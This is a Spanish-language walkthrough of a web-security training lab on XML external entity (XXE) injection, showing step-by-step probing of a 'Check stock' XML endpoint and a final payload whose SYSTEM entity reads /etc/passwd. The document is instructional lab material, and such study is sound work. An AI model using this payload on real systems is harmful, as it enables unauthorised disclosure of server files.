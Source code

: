 # Lab: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---


Iniciamos el laboratorio y nos encontramos con una aplicación de shopping:
![image](https://github.com/user-attachments/assets/56a61334-623e-4cfa-bd40-0b25b4550af0)

Accedemos a la descripción de un producto haciendo click en `View details`:
![image](https://github.com/user-attachments/assets/f8eae5bf-e647-4f4c-aff7-fb6974f55fee)

Este laboratorio nos dice que tiene una vulnerabilidad en la funcionalidad `Check stock`:
![image](https://github.com/user-attachments/assets/efc2f1da-39d8-411d-bcaa-bd09db8aa096)

Por lo que procedemos a analizarla:
![image](https://github.com/user-attachments/assets/e8f04b5b-299b-41ad-b709-99afa48379ff)

Esta captura muestra un escenario clásico y perfectamente explotable de XXE.

Estamos enviando información vía XML en la request:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
El servidor responde con 759, lo que indica que interpreta y procesa correctamente el XML enviado.

Indicios:
- El servidor está procesando directamente el contenido XML que el cliente envía, lo cual es el punto de partida para probar inyecciones de entidades externas.

- No hay evidencias de validación ni sanitización del XML.

- Si el servidor usa un parser vulnerable que permite entidades externas, podríamos intentar algo como:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY test "test"> ]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

En este caso estamos definiendo un `DTD` que contiene una entidad interna `test` con el valor "test".
Aunque en este ejemplo **no estamos utilizando la entidad `&test;` dentro del XML**, esto **sirve como prueba inicial** para verificar si el servidor acepta la inclusión de un `DOCTYPE`. Esto puede revelar si:

- El parser XML está configurado para **procesar DTDs internos**.
- Existen **controles de seguridad que bloqueen la definición de entidades** (por ejemplo, filtros WAF).
- Se producen errores de parsing, lo cual podría indicar una **superficie vulnerable a ataques XXE**.

Analizamos la petición en Burp Suite:
![image](https://github.com/user-attachments/assets/7fc94c72-0b57-4523-b9d7-6c0dd8c46277)

El siguiente paso es confirmar si el servidor resuelve y expande entidades, por lo que referenciaremos la entidad:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY test "XXE Working"> ]>
<stockCheck>
  <productId>&test;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Analizamos el resultado de la petición:
![image](https://github.com/user-attachments/assets/c5251071-f42b-4d64-af51-4ffd3d1f77e5)



```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```



